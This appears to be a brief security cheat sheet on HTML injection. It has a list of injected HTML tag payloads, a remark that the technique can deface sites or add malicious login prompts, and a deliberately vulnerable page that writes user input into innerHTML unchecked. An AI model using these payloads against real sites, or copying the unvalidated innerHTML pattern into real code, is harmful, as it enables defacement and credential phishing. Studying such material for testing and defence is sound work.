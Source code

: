 
> [!NOTE] Note
> This can be used to deface websites or create added on malicious login prompts

## Payloads
```html
<h1>Pwned!</h1>
<pre>Pwned!</pre>
<i>Pwned!</i>
<a href="http://adot8.com">Pwned!</a> 
<article><h2>Pwned!</h2></article>
<button type="button">Click Me!</button>
<svg width="100" height="100"><circle cx="50" cy="50" r="40" stroke="green" stroke-width="4" fill="yellow" /></svg>
<audio controls><source src="demo.ogg" type="audio/ogg"><source src="demo.mp3" type="audio/mpeg"></audio>
<video width="320" height="240" controls></video>
 
```

## No input validation

```html
<!DOCTYPE html>
<html>

<body>
    <button onclick="inputFunction()">Click to enter your name</button>
    <p id="output"></p>

    <script>
        function inputFunction() {
            var input = prompt("Say something!", "");

            if (input != null) {
                document.getElementById("output").innerHTML = "You said" + input;
            }
        }
    </script>
</body>

</html>

```

